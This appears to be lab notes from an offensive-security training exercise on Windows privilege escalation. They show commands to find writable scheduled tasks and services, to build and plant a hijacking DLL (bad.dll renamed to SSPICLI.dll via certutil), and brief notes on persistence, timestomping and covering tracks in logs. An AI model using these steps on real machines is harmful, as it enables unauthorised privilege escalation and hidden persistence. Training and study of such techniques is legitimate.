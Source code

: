 ```Powershell
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive
DEMO: Finding vulnerable Scheduled Tasks
# The following commands can be used to idenitfy vulnerable tasks using CMD and PowerShell:

schtasks /query /fo LIST /v #List all Tasks in List format
schtasks /query /fo LIST /v | Select-String -Pattern "STRING OR REGEX PATTERN" #Select-String can utilize regex to output only values that match
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive -Context 0,6 #Searches for Task To Run and outputs that line, along with the 6 lines following it in order to show the Run As User setting too.
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive |Select-String -Pattern "COM handler" -NotMatch #Excludes results that we dont want to seein order to help narrow down vulnerable directory locations

#Open and view tasks from the Task Scheduler GUI Application
#Identify the following vulnerable Task:
C:\Users\student\exercise_2\putty.exe
Run: sigcheck c:\users\student\exercise_2\putty.exe
#Determines information we can use to research for vulnerabilities
Run: icacls "c:\users\student\exercise_2"
#Check if the directory can be written to, as it is non-standard

There Query will show all the tasks that are running
Identify and document the service information associated with the path
```
```CMD
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" | findstr /i "7z.exe"

icacls putty.exe
this will show you your permissions of the program(you don't, but you can cacls the folder the program is located in)
```
1. Find out which DLLs are used by the application your tyring to run
   1. open procmon
      1. Process Name CONTAINS
      2. results CONTAINS
      3. Path CONTAINS

# test clipboard
base64 bad.dll | xclip -selection clipboard
- open a notepad in windows copy/pastsave
# Create Nano file on linux with code
cd into folder with bad.c in it
run the below command on the fill
i686-w64-mingw32-g++ -c bad.c -o bad.o
i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a
# now move over to windows box
scp student@10.50.34.63:/home/student/bad.dll .
# THis will pull the file from the linux-ops to the windows machine
Run: certutil -decode bad.txt SSPICLI.dll
- check source code for dll
  




# Vulnerable Services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" 
- every service that is autostart, that does not start in c:\windows
icacls "c:\Program Files\Windows Photo Viewer"
C:\Users\student\exercise_2>icacls "c:\Program Files\7-Zip\7z.exe"
c:\Program Files\7-Zip\7z.exe BUILTIN\Users:(F)
                              NT AUTHORITY\SYSTEM:(I)(F)
                              BUILTIN\Administrators:(I)(F)
- If you have full control/Modify you know you can modfy this execution
- ACCOUNT ACCESS
- create your own service and place it on the box
- open your services management tool
  - filter by description
  - look at ones without descriptions
## DEMO finding vulnerbale services
Survives:
1. Reboots
2. Credential changes
3. DHCP IP reassignment
Considerations include:
1. File naming
2. File location
3. Timestomping
4. Port selection
Covering Tracks
LOGS
- Artifacts
  - event LOGS
    - Applications, Security, Setup, System